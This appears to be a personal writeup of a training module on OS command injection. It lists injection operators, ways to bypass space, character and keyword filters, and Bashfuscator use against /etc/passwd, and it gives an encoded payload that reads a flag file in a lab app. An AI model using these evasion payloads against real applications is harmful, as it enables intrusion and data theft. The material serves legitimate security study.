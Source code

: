 # Academy - Command Injection  

Overall, I think this is not the best module. As a result, I am going to keep this writeup very brief. 

<br />

## Operators for Injection  

These are the Operators that cause multiple commands to be run:  
(The "Command Executed column indicated which of the commands on each side of the operator is run):  

| Operator | Url-Encoded | Command Executed                           |
|  ------- |   -------   |     --------------------------------       | 
|   `;`    |    `%3b`    |   Both                                     |
|   `\n`   |    `%0a`    |   Both                                     |
|   `&`    |    `%26`    |   Both (second output usually shown first) |
|   `\|`   |    `%7c`    |   Both (only second output shown)          |
|   `&&`   |    `%26%26` |   Both (only if first suceeds)             |
|  `\|\|`  |    `%7c%7c` |   First, Second (only if first fails)      |
| ``` `` ``` |    `%60%60` |   Both (Linux-only)                        |
|   `$()`  | `%24%28%29` |   Both (Linux only)                        |

<br />

## Bypassing Front-End Validation

We can look at the network tab of command line tools and see that there was no GET or POST request actually sent, meaning the input validation was being done in the front end.  

If Front-End validation is occuring, you should be able to just modify the request in Burp, to bypass the validation. 

<br />

## Bypassing Character Filters

Characters like `[space]` `\` `/` `;` `&` `|` are often filtered out of input  

These are some of the many ways to bypass filters for different characters:  

### Spaces:

The newline character `\n` or url-encoded: `%0a` is often not blacklisted, and can be used to append an extra command in both Windows and Linux and can therefore maybe be used as an injection operator  

The tab character (`%09`) can also sometimes be used  

Using the `$IFS` Linux environment variable may work to bypass space filters because its default value is a space and a tab  

Bash brace (`{}`) expansion:  
In bash, `{ls,-la,/}` is equivalent to `ls -la /`

This page has some more ways to write commands without spaces:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space  

### Using Environment Variables:  

We can use environment variables, to get characters in our payload  
For example, if `/` was filtered, we could use Linux environment variables to get it:  
For example, the `PATH` variable might be `/usr/local/bin:/usr/bin:/bin:/usr/games`  
We could use `${PATH:0:1}` to get just that first `/`  
This also might work with the `HOME` or `PWD` environment variables  
Similarly, to get a `;` on most Linux targets, we could do: `${LS_COLORS:10:1}`  

The same concept can apply with Windows environment variables:
`$env:HOMEPATH[0]` will get us a `\`  
We can use the `Get-ChildItem Env:` Powershell command to show all of the environment variables, and select characters we need from them  
For instance, I was able to find `$env:PATHEXT[4]` from this which gets me a `;`  

### Character Shifting
This will output a `/` : `echo $(tr '!-}' '"-~'<<<[)`  

### Character Filters Bypass Example:

I was able to use:  
`127.0.0.1%0a{ls,-la,${PATH:0:1}home}`  
to list the `/home` directory for one of the challenges  

<br />

## Bypassing Command Filters  

Sometimes certain words, that are commands (e.g `whoami`) will be filtered out of input  

Linux and Windows:  
- `wh'o'am'i'` or `wh"o"am"i"` instead of `whoami`  
    - Cannot mix types of quotes, number of quotes must be even

Linux Only:  
- `who$@ami` or `w\ho\am\i`  

Windows Only:  
- `who^ami` or `WhOaMi`  

Linux Case Manipulation equivalent:  
- Unlike Windows, Linux/bash shell is case-sensitive. The following work though:  
    - `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`
    - `$(a="WhOaMi";printf %s "${a,,}")`

Reversed Commands:  
- Linux: `$(rev<<<'imaohw')`  
- Windows: `iex "$('imaohw'[-1..-20] -join '')"`  

Encoded Commands:  
- Linux:  
    - `echo -n 'whoami' | base64`  
    - `bash<<<$(base64 -d<<<d2hvYW1p)`  
    - Note: we are using `<<<` to avoid using `|` which might be a filtered character
- Windows:
    - `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`  
    - `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`  

<br />

## Evasion Tools  

**Bashfuscator (Linux)**  
- `git clone https://github.com/Bashfuscator/Bashfuscator`  
- `cd Bashfuscator`  
- `python3 setup.py install --user`  
- `./bashfuscator/bin/bashfuscator -h`  
- `./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1`  

**DOSfuscation (Windows)**  

<br />

## Skills Assesment

There was an injectable move file request in a tiny file manager webapp  
To cat `/flag.txt` we injected with the following (`%7c` is url-encoded `|`):  
- `echo -n 'cat ${PATH:0:1}flag.txt' | base64`  
- `%7c%7cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=)`



